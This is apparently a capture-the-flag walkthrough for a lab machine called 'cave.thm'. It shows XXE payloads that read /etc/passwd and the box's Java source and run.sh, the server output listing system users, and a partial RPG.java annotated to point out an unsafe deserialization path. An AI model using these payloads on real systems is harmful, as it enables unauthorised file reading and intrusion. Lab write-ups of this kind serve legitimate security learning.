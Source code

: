     <?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>

Output Snippet (Response from Server):
    
    HTTP/1.1 200 OK
    Date: Sat, 01 Jul 2023 01:06:47 GMT
    Server: Apache/2.4.41 (Ubuntu)
    Vary: Accept-Encoding
    Content-Length: 1413
    Connection: close
    Content-Type: text/html; charset=UTF-8
    
    root:x:0:0:root:/root:/bin/bash
    ...
    cave:x:1000:1000:,,,:/home/cave:/bin/bash
    door:x:1001:1001:,,,:/home/door:/bin/bash
    skeleton:x:1002:1002:,,,:/home/skeleton:/bin/bash

The server responded with the content of /etc/passwd, confirming the XXE vulnerability. This allowed enumeration of system users: root, cave, door, and skeleton.

Further File Reading via XXE:

The XXE vulnerability was then used to retrieve the contents of the Java source files and the run.sh script from /home/cave/src/.

Commands (Conceptual XML Payloads):

    <?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:////home/cave/src/RPG.java'>]><root>&test;</root>
    <?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:////home/cave/src/run.sh'>]><root>&test;</root>

Contents of RPG.java (Partial):

    import java.util.*;
    import java.io.*;
    import java.io.IOException;
    import java.io.InputStream;
    import java.net.ServerSocket;
    import java.net.Socket;
    import java.net.URL;
    import java.net.URLConnection;
    import org.apache.commons.io.IOUtils; // <-- Important: IOUtils library is used
    import java.util.Scanner;
    import java.util.logging.Level;
    import java.util.logging.Logger;
    
    public class RPG {
        private static final int port = 3333;
        // ...
        public static void main(String[] args) {
            try ( ServerSocket serverSocket = new ServerSocket(port)) {
                while (true) {
                    // ...
                    serverPrintOut.println("You find yourself in a cave, what do you do?");
                    String s = scanner.nextLine();
                    URL url = new URL("http://cave.thm/" + s); // <-- Constructs URL with user input
                    URLConnection con = url.openConnection();
                    InputStream in = con.getInputStream();
                    String encoding = con.getContentEncoding();
                    encoding = encoding == null ? "UTF-8" : encoding;
                    String string = IOUtils.toString(in, encoding); // Reads content
                    string = string.replace("\n", "").replace("\r", "").replace(" ", ""); // Sanitizes string
                    Action action = (Action) Serialize.fromString(string); // <-- JAVA DESERIALIZATION
                    action.action(); // <-- Calls action() method
                    serverPrintOut.println(action.output);